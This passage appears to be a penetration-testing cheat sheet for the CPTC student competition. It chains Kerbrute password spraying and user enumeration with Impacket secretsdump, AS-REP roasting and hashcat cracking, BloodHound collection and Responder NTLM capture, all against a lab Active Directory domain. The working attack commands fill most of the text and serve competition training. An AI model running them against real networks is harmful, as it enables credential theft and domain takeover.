 **CPTC Reality:** Budget 1-2 password sprays only

---

## Integration with Other Tools

### Kerbrute → Impacket

```bash
# 1. Kerbrute finds valid creds
kerbrute passwordspray --dc 10.10.10.10 -d corp.local users.txt 'Welcome2024!'
# Output: [+] VALID LOGIN: john.doe@corp.local:Welcome2024!

# 2. Verify with Impacket
crackmapexec smb 10.10.10.10 -u john.doe -p 'Welcome2024!' -d corp.local

# 3. Dump hashes
impacket-secretsdump 'corp.local/john.doe:Welcome2024!@10.10.10.10'
```

---

### Kerbrute → BloodHound

```bash
# 1. Find valid users
kerbrute userenum --dc 10.10.10.10 -d corp.local users.txt -o valid.txt

# 2. Try AS-REP roasting (no password needed!)
impacket-GetNPUsers corp.local/ -usersfile valid.txt -dc-ip 10.10.10.10 -format hashcat -outputfile asrep.txt

# 3. If AS-REP hash found, crack it
hashcat -m 18200 asrep.txt rockyou.txt

# 4. Use cracked creds in BloodHound
bloodhound-python -u user -p cracked-pass -d corp.local -ns 10.10.10.10 -c All --zip
```

---

### Kerbrute → Responder (If No Creds)

```bash
# 1. Kerbrute finds valid usernames
kerbrute userenum --dc 10.10.10.10 -d corp.local users.txt -o valid.txt

# 2. Start Responder (parallel attack)
sudo responder -I eth0 -wrf

# 3. Wait for NTLM hashes from network
# 4. Crack hashes, use for access
```

---